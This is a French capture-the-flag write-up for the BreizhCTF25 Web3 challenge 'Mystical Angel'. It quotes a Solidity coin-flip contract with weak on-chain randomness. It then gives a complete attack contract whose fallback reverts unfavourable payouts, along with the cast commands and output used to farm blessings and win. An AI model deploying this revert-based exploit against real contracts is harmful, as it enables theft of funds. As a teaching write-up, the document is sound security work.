 ```yaml
---
author: K.L.M
title: BreizhCTF25 - Mystical Angel
description: Write up du challenge Mystical Angel par K.L.M
slug: mystical-angel-web3                   
date: 2025-03-17 00:00:00+0000
image: assets/cover.png
categories:
    - Web3
tags:
    - BreizhCTF25
    - Blockchain
    - CTF
---
```

# Mystical Angel - K.L.M

## Contrat
Ce contrat est une simulation d'un jeu similaire à un pile ou face avec un ange (?).

Notre but est de remplir la condition "isSolved()", pour ce faire, nous remarquons que nous devons appeler la fonction :
```solidity
function ascend() public payable {
        require(blessings[msg.sender] >= 10,"You have not proved your worthiness :((");
        solved = true;
    }
```

Afin d'obtenir 10 blessings, nous nous intéressons à la partie du code suivante:
```solidity
function Blessing() public payable {
    require(msg.value == 1 ether, "You must pay the right to get your blessing");
    uint256 randomNumber = uint256(keccak256(abi.encodePacked(seed, msg.sender, block.prevrandao, block.timestamp)));
    uint256 AngelNumber = randomNumber % 2;

    if (AngelNumber == 1) {
        (bool sent, ) = msg.sender.call{value: 1 ether}("");
        require(sent, "Failed to send Ether");
        blessings[msg.sender] += 1;
    }

    if (AngelNumber == 0) {
        (bool sent, ) = msg.sender.call{value: 1 ether}("");
        require(sent, "Failed to send Ether");
        blessings[msg.sender] = 0;
    }
}
```
Il calcule une valeur "random" dont nous n'avons pas connaissance, puis en fonction de sa valeur, il nous renvoie une transaction contenant 0 ou 1 ether puis nous ajoute un blessing ou nous les retire tous. 

## Solve

Une manière simple de réussir à obtenir uniquement des bonnes conditions viserait à ne jamais rentrer dans l'instruction : `blessings[msg.sender] = 0;` et pour ça nous pouvons utiliser une petite astuce : Rejeter tout envoi de fonds qui n'est pas égal à 1 ether.

Mais comment on fait K.L.M ?

Comme ça !
```solidity
fallback() payable external{
        if (msg.value != 1 ether){
            revert();
        }
    }
```

Maintenant on écris un contrat d'attaque (dispo dans le dossier sous le nom attack.sol):

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

interface mysticalAngel{
     function Blessing() external payable;
     function ascend() external payable;
}

contract Attack {

    mysticalAngel public angel;

    function setTarget(address _angel) public {
        angel = mysticalAngel(_angel);
    }

    function attack() public payable {
        angel.Blessing{value: 1 ether}();
    }

    function win() public {
        angel.ascend();
    }


    fallback() payable external{
        if (msg.value != 1 ether){
            revert();
        }
    }
}
```

Maintenant il ne reste plus qu'à le déployer, exporter nos variables d'environnement sous la forme : \$ATK = adresse du contrat attack, \$TAR = adresse du contrat cible, \$PK = clé privée, \$RPC = URL du RPC
Et à realiser la suite de commande suivante :

```bash
cast send $ATK "setTarget(address)" $TAR -r $RPC --private-key $PK
cast send $ATK "attack()" -r $RPC --private-key $PK --value 1ether # pour envoyer 1 ether au contrat pour pouvoir call la fonction, si ce n'est pas bon, il faut réessayer.

cast b $ATK -r $RPC # par exemple ici ce n'était pas bon.
0

cast send $ATK "attack()" -r $RPC --private-key $PK --value 1ether
cast b $ATK -r $RPC
1000000000000000000 # ça a fonctionné

cast send $ATK "attack()" -r $RPC --private-key $PK # à répeter autant de fois que nécessaire

cast call $TAR "blessings(address)(uint256)" $ATK -r $RPC
13 # supérieur à 10, on est bon !
```

Win !
On récupère ensuite notre flag sur la plateforme.
